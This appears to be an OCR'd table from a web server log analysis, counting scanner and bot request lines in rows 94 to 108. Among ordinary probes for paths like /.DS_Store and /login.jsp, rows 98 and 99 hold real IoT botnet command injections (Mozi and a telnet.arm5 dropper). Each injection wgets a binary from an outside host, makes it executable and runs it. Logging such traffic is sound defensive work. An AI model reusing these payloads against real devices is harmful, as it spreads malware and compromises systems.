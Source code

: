 |  94 |                     3 | GET /query?q=SHOW+DIAGNOSTICS HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
|  95 |                     3 | GET /users/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                      |
|  96 |                     3 | GET /.DS_Store HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
|  97 |                     3 | GET /libs/js/iframe.js HTTP/1.0                                                                                                                                                                                                                                                                                                                            |
|  98 |                     3 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                      |
|  99 |                     2 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                              |
| 100 |                     2 | GET /api/session/properties HTTP/1.1                                                                                                                                                                                                                                                                                                                       |
| 101 |                     2 | \x16\x03\x00\x00S\x01\x00\x00O\x03\x00?G\xD7\xF7\xBA,\xEE\xEA\xB2`~\xF3\x00\xFD\x82{\xB9\xD5\x96\xC8w\x9B\xE6\xC4\xDB<=\xDBo\xEF\x10n\x00\x00(\x00\x16\x00\x13\x00                                                                                                                                                                                         |
| 102 |                     2 | POST /sdk HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
| 103 |                     2 | HELP                                                                                                                                                                                                                                                                                                                                                       |
| 104 |                     2 | \x80\x00\x00(r\xFE\x1D\x13\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xA0\x00\x01\x97|\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                    |
| 105 |                     2 | GET /api/index.php/v1/config/application?public=true&page%5Boffset%5D=0&page%5Blimit%5D=60 HTTP/1.1                                                                                                                                                                                                                                                        |
| 106 |                     2 | GET /Public/home/js/check.js HTTP/1.1                                                                                                                                                                                                                                                                                                                      |
| 107 |                     2 | GET /login.jsp HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
| 108 |                     2 | GET /wp-content/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |